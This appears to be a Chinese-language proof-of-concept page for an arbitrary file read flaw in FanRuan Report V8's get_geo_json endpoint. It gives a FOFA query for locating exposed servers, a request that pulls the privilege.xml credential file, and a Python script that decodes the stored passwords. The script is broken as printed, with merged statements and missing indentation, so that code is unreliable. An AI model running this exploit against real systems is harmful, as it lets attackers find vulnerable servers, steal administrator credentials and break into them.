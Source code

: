## 帆软报表 V8 get_geo_json 任意文件读取漏洞

## fofa
```
body="isSupportForgetPwd"
```

![image](https://github.com/wy876/POC/assets/139549762/b38dbaa3-3103-45e7-980b-7f3adf6a95ba)


## poc
```
WebReport/ReportServer?op=chart&cmd=get_geo_json&resourcepath=privilege.xml
```

获得账号密码后进行解密，解密脚本如下
## 解密脚本
```python
cipher = 'XXXXXXXXXXX' #密文
PASSWORD_MASK_ARRAY = [19, 78, 10, 15, 100, 213, 43, 23]
Password = "" cipher = cipher[3:]
for i in range(int(len(cipher) / 4)):
c1 = int("0x" + cipher[i * 4:(i + 1) * 4], 16)
c2 = c1 ^ PASSWORD_MASK_ARRAY[i % 8]
Password = Password + chr(c2)
print (Password)
```
